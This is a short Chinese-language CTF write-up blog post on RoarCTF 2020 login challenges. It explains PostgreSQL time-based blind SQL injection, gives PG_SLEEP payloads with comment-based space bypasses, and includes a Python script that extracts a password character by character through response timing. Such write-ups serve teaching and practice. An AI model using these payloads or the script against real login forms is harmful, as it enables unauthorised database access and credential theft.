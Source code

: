 ```yaml
---
layout:     post
title:      RoarCTF-2020-Writeup
subtitle:   tcl
date:       2020-12-8
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/64952665_p0.png
catalog: true
tags:
    - WP
    - 比赛
---
```


## 你能登陆成功吗 && 你能登陆成功吗-reverse



`PostgreSQL`数据库的注入

存在时间盲注

```sql
username=admin&password=' AND 8721=(SELECT 8721 FROM PG_SLEEP(5))-- NwFA
```



利用`and ` 如果第一个条件为真则继续判断下一个条件，否则直接跳过

过滤了空格,直接查`password` ，利用字符串截取



若为真则延时

```sql
'AND/**/(select/**/substring(password,1,1)/**/from/**/users/**/limit/**/1)='A'/**/AND/**/1=(SELECT/**/1/**/FROM/**/PG_SLEEP(1))--/**/NwFA
```



exp

```python
import requests
import urllib

url = r'http://139.129.98.9:30007'

import time
count=0
flag = ""
while 1:
	count+=1
	for x in range(1,127):
		payload = "'AND/**/(select/**/substring(password,{1},1)/**/from/**/users/**/limit/**/1)='{0}'/**/AND/**/1=(SELECT/**/1/**/FROM/**/PG_SLEEP(1))--/**/NwFA".format(chr(x),str(count))
		params = {
			'username':'admin',
			'password':payload
			}
		#print(payload)
		time1 = time.time();
		res = requests.post(url,data=params)
		if time.time()-time1 >1:
			flag+=chr(x)
			print(flag)
			break
```